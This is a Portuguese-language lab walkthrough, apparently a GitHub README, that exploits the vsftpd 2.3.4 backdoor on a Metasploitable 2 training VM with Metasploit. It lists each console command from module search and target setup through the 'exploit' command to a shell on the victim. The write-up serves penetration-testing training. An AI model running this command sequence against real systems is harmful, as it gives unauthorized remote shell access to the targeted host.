# Explorando falha no FTP

> Laboratório: Falha no FTP


---


## 1) VM — Imagem da máquina vulnerável




*Captura da máquina Metasploitable 2 utilizada no laboratório.*


## 2) Iniciando o Metasploit


**Comando usado:**
```
msfconsole
```

## 3) Pesquisando vulnerabilidade no metasploit


**Comando usado:**
```
search vsftpd
```

## 4) Informações da vulnerabilidade

**Comando usado:**
```
info exploit/unix/ftp/vsftpd_234_backdoor
```

## 5) Selecionando vulnerabilidade


**Comando usado:**
```
use exploit/unix/ftp/vsftpd_234_backdoor
```

## 6) Vendo configurações da vulnerabilidade

**Comando usado:**
```
show options
```

## 7) Selecionando Host com o IP da maquina vulnerável


**Comando usado:**
```
set rhosts 192.168.56.103
```

## 8) Mostrando payloads

**Comando usado:**
```
show payloads
```

## 8) Selecionando payloads

**Comando usado:**
```
set payload cmd/unix/interact
```

## 9) Vendo config

**Comando usado:**
```
show options
```

## 10) Iniciando exploit

**Comando usado:**
```
exploit
```

## 11) Usando comando para ver as pastas da maquina vulnerável

**Comando usado:**
```
ls
```

